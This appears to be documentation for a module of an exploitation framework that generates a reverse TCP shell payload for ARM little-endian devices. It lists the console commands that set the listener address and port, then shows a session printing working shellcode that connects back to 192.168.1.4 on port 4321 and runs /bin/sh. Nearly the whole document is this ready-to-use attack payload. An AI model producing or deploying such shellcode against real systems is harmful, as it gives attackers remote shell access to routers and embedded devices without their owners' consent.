 ## Description

Module generates payload that creates interactive tcp reverse shell for ARMLE architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/armle/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates armle reverse shell tcp payload

## Scenarios

```
rsf >
rsf > use payloads/armle/reverse_tcp
rsf (ARMLE Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (ARMLE Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (ARMLE Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x02\x20\x01\x21\x92\x1a\x0f"
    "\x02\x19\x37\x01\xdf\x06\x1c\x08\xa1\x10\x22\x02\x37\x01\xdf"
    "\x3f\x27\x02\x21\x30\x1c\x01\xdf\x01\x39\xfb\xd5\x05\xa0\x92"
    "\x1a\x05\xb4\x69\x46\x0b\x27\x01\xdf\xc0\x46\x02\x00\x10\xe1"
    "\xc0\xa8\x01\x04\x2f\x62\x69\x6e\x2f\x73\x68\x00"
)
```
